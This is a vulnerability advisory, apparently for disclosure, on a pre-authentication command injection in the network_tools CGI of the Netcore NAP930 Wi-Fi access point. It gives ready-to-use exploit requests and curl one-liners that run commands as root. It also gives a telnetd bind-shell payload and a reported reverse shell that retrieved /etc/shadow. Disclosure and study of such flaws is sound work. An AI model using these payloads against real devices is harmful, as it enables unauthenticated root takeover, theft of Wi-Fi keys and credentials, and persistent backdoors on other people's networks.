


# Netcore NAP930 Access Point

- Vendor: Netcore
- Product: Netcore NAP930 (WiFi 6 Access Point, up_model: NAP930)
- Firmware Version: V0.1.241010.141410 (OpenWrt 21.02-SNAPSHOT r0-1d32b23a6, mediatek/mt7981, aarch64 cortex-a53)
- Vulnerability Type: Unauthenticated OS Command Injection (CWE-78)

## Overview

A pre-authentication command injection vulnerability exists in the `network_tools` shell CGI of the Netcore NAP930 access point. An unauthenticated attacker on the LAN can execute arbitrary shell commands with **root** privileges by sending a single crafted HTTP GET request:

`GET /cgi-bin/network_tools?sid=';CMD;:' HTTP/1.1`

No credentials, session token or CSRF token are required. The web interface is served by `uhttpd` on ports 80/443/23355; all CGI scripts execute as root.

## Vulnerability Details

The vulnerability resides in `/www/cgi-bin/network_tools` (POSIX shell CGI). The script defines a `urldecode()` sanitizer but **its invocation is commented out**, so the raw, percent-encoded `QUERY_STRING` is split into `key`/`val` pairs and fed directly into `eval`. Furthermore, the `eval` loop runs **before** the session-id and `ubus session access` authorization checks:




```sh
#check sessin id and permission
#QUERY_STRING=`urldecode "$QUERY_STRING"`     <- sanitizer invocation commented out
while [ true ]; do
	param=${QUERY_STRING%%&*}
	QUERY_STRING=${QUERY_STRING#*&}
	val=${param#*=}
	key=${param%=*}
	eval "${key}='${val}'"                 <- injection point (pre-auth)
	if [ "$param" = "$QUERY_STRING" ] || [ ${#param} -le 0 ]; then
		break
	fi
done

#check sessin id and permission            <- authorization happens only AFTER eval
if [ ${#sid} -ne 32 ]; then
	returnerrcode 6
	exit
fi
```

`uhttpd` passes `QUERY_STRING` to CGI scripts **verbatim** (no URL decoding). Supplying a literal single quote in the value therefore closes the `'${val}'` quoting and injects an arbitrary command:

```
eval "sid='';id>/www/pwn.txt;:''"   ->   executes: id > /www/pwn.txt
```

The trailing `:''` keeps the eval'd string syntactically balanced (an unbalanced quote makes busybox ash abort the whole script).

The sibling CGIs `telnet`, `hello` and `upgrade` use a printf-based decoder feeding `eval "${key}=$(echo -n '${val}')"`; in busybox ash the inner single quotes prevent the parameter expansion, so those variants are **not** injectable — only `network_tools` (raw `eval "${key}='${val}'"`) is affected.

## Proof of Concept

Step 1 — unauthenticated command injection (writes the output of `id` into the web document root):

```http
GET /cgi-bin/network_tools?sid=';id>/www/pwn.txt;:' HTTP/1.1
Host: 192.168.1.1
Connection: close

```

Response (note: the authorization check rejects the request with `result:[6]`, but the injected command has already executed during `eval` — the error code must not be read as "not vulnerable"):

```json
{
"jsonrpc": "2.0",
"id ": 1,
"result": [6]
}
```

Step 2 — retrieve the command output:

```http
GET /pwn.txt HTTP/1.1
Host: 192.168.1.1
Connection: close

```

Response:

```
uid=0(root) gid=0(root) groups=0(root)
```

curl equivalents:

```sh
curl "http://<target>/cgi-bin/network_tools?sid=';id>/www/pwn.txt;:'"
curl "http://<target>/pwn.txt"
```

Reverse shell payload (the firmware's busybox `nc` is a minimal build without `-e`; on the real device `telnetd` provides a stable bind shell, on the emulation a file-driven reverse channel was used):

```
sid=';telnetd${IFS}-p${IFS}2323${IFS}-l${IFS}/bin/sh;:'      # then: telnet <target> 2323
```

Since this CGI performs no URL decoding, quotes/semicolons must be sent **raw** (not `%27`/`%3B`), and spaces must be written as `${IFS}` (shell-expanded during `eval`; `%20` would stay literal).

## Impact

An unauthenticated LAN attacker obtains arbitrary command execution as **root**, resulting in full device compromise: configuration disclosure (Wi-Fi keys, DDNS credentials), persistent backdoors via flash writes, and a pivot point into the managed network. Combined with the factory-state empty root password and the always-starting telnetd (`/etc/rc.d/S90telnet`), the exposure is further amplified.

## Reproduction Result

Dynamically verified against the firmware emulated with qemu-aarch64 user-mode + chroot (uhttpd on :8080 with the original rootfs):



```
$ curl "http://192.168.1.5:8080/cgi-bin/network_tools?sid=';id>/www/v_http;:'"
{"jsonrpc":"2.0","id ":1,"result":[6]}
$ curl "http://192.168.1.5:8080/v_http"
uid=0(root) gid=0(root) groups=0(root)
```

An interactive root shell from the emulated firmware back to the Windows attack host (file-driven command channel + reverse `nc` output channel) was also confirmed, returning `id`, `uname -a` and the full `/etc/shadow` contents.
